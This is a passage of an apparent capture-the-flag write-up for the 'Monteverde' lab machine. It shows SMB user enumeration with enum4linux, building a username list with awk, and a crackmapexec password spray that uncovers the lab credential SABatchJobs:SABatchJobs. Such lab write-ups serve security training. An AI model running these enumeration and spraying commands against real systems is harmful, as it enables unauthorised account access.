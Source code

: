 `enum4linux 10.10.10.172 | grep -v uninitialized | tee enum4linux.out`

Enum4linux (at least the one I'm using) produces many error messages, so an inverse grep is used here to remove the error messages before saving it to the file `enum4linux.out`.

The `tee` commands prints the results to stdout as well so that we can review sooner.

From the results, we gather a list of usernames.

```
 ============================= 
|    Users on 10.10.10.172    |
 ============================= 
 <SNIP>
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
<SNIP>
```

We can format the above into a proper user list with `awk`.

`awk -F'[' '{print $2}' extractfromenum4linux.txt | awk -F']' '{print $1}' > users.txt`

Not elegant, but it does the job.

## Password Spraying

With the list of users, we try exploiting the possible weak credentials suggested by this [OWASP reference](https://wiki.owasp.org/index.php/Testing_for_default_credentials_(OTG-AUTHN-002)).

Trying the usernames as passwords panned out.

```
# crackmapexec smb 10.10.10.172 -u users.txt -p users.txt 
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK) (signing:True) (SMBv1:False)
<SNIP>
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\SABatchJobs:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\SABatchJobs:SABatchJobs 
```

Found credentials:

* username: SABatchJobs
* password: SABatchJobs

## Re-enumerating SMB
